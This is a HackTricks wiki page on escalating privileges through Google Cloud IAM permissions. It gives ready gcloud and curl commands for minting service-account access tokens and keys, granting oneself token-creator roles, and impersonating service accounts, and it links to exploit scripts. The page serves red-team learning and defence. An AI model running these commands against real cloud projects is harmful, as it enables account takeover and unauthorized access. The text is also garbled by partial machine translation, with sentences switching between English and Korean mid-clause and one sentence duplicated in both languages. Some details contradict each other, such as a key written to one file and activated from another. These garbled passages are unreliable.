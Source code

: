 # GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

IAM에 대한 더 많은 정보는 다음에서 확인하세요:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

언급된 권한을 가진 공격자는 귀하에게 할당된 역할을 업데이트하고 다음과 같은 다른 리소스에 대한 추가 권한을 부여할 수 있습니다:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
You can find a script to automate the **creation, exploit and cleaning of a vuln environment here** and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

An attacker with the mentioned permissions will be able to **request an access token that belongs to a Service Account**, so it's possible to request an access token of a Service Account with more privileges than ours.  
공격자는 언급된 권한을 가지고 **서비스 계정에 속하는 액세스 토큰을 요청할 수 있습니다**, 따라서 우리의 권한보다 더 많은 권한을 가진 서비스 계정의 액세스 토큰을 요청할 수 있습니다.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

An attacker with the mentioned permissions will be able to **create a user-managed key for a Service Account**, which will allow us to access GCP as that Service Account.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
여기에서 [**취약한 환경의 생성, 악용 및 정리를 자동화하는 스크립트**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh)를 찾을 수 있으며, 이 권한을 악용하기 위한 파이썬 스크립트는 [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py)에서 확인할 수 있습니다. 더 많은 정보는 [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)를 확인하세요.

**`iam.serviceAccountKeys.update`는 SA의 키를 수정하는 데 작동하지 않습니다**. 이를 위해서는 `iam.serviceAccountKeys.create` 권한도 필요합니다.

### `iam.serviceAccounts.implicitDelegation`

**`iam.serviceAccounts.implicitDelegation`** 권한이 있는 서비스 계정이 **`iam.serviceAccounts.getAccessToken`** 권한을 가진 다른 서비스 계정이 있다면, implicitDelegation을 사용하여 **해당 다른 서비스 계정을 위한 토큰을 생성할 수 있습니다**. 설명을 돕기 위한 다이어그램은 다음과 같습니다.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

[**문서**](https://cloud.google.com/iam/docs/understanding-service-accounts)에 따르면, `gcloud`의 위임은 [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) 메서드를 사용하여 토큰을 생성하는 데만 작동합니다. 따라서 API를 직접 사용하여 토큰을 얻는 방법은 다음과 같습니다:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
You can find a script to automate the [**취약한 환경의 생성, 악용 및 정리 여기**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) and a python script to abuse this privilege [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). For more information check the [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

An attacker with the mentioned permissions will be able to **GCP에서 임의의 페이로드 서명**. So it'll be possible to **SA의 서명되지 않은 JWT를 생성한 다음, 이를 blob으로 보내어 우리가 목표로 하는 SA에 의해 JWT가 서명되도록 할 수 있습니다**. For more information [**이것을 읽어보세요**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

You can find a script to automate the [**취약한 환경의 생성, 악용 및 정리 여기**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) and a python script to abuse this privilege [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) and [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). For more information check the [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

An attacker with the mentioned permissions will be able to **형식이 올바른 JSON 웹 토큰(JWT) 서명**. The difference with the previous method is that **JWT를 포함하는 blob을 서명하는 대신, 이미 JWT를 기대하는 signJWT 메서드를 사용합니다**. This makes it easier to use but you can only sign JWT instead of any bytes.

You can find a script to automate the [**취약한 환경의 생성, 악용 및 정리 여기**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) and a python script to abuse this privilege [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). For more information check the [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

An attacker with the mentioned permissions will be able to **서비스 계정에 IAM 정책 추가**. You can abuse it to **자신에게** 필요한 권한을 부여하여 서비스 계정을 가장할 수 있습니다. In the following example we are granting ourselves the `roles/iam.serviceAccountTokenCreator` role over the interesting SA:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

The **iam.serviceAccounts.actAs permission**는 **AWS의 iam:PassRole permission**과 유사합니다. 이는 Compute Engine 인스턴스를 시작하는 것과 같은 작업을 실행하는 데 필수적이며, Service Account로 "actAs"할 수 있는 능력을 부여하여 안전한 권한 관리를 보장합니다. 이를 통해 사용자가 부당한 접근을 얻을 수 있습니다. 또한, **iam.serviceAccounts.actAs**를 악용하는 것은 다양한 방법을 포함하며, 각 방법은 특정 권한 세트를 요구하며, 다른 방법들은 단 하나의 권한만 필요로 합니다.

#### Service account impersonation <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Service account를 가장하는 것은 **새롭고 더 나은 권한을 얻는 데 매우 유용**할 수 있습니다. 다른 service account를 [가장하는 세 가지 방법](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account)이 있습니다:

* RSA 개인 키를 **사용한 인증** (위에서 다룸)
* Cloud IAM 정책을 **사용한 권한 부여** (여기서 다룸)
* GCP 서비스에서 **작업 배포** (사용자 계정의 손상에 더 적용 가능)

### `iam.serviceAccounts.getOpenIdToken`

언급된 권한을 가진 공격자는 OpenID JWT를 생성할 수 있습니다. 이는 신원을 주장하는 데 사용되며, 자원에 대한 암묵적인 권한 부여를 반드시 포함하지는 않습니다.

이 [**흥미로운 게시물**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b)에 따르면, 청중(토큰을 사용하여 인증할 서비스)을 지정해야 하며, 그러면 서비스 계정과 JWT의 청중을 나타내는 google에 의해 서명된 JWT를 받게 됩니다.

접근 권한이 있는 경우 OpenIDToken을 생성할 수 있습니다:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
그럼 다음과 같이 서비스를 액세스하는 데 사용할 수 있습니다:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
일부 서비스는 이러한 종류의 토큰을 통한 인증을 지원합니다:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (Google OIDC를 사용하는 경우)

서비스 계정을 대신하여 OpenID 토큰을 생성하는 방법에 대한 예시는 [**여기**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py)에서 확인할 수 있습니다.

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
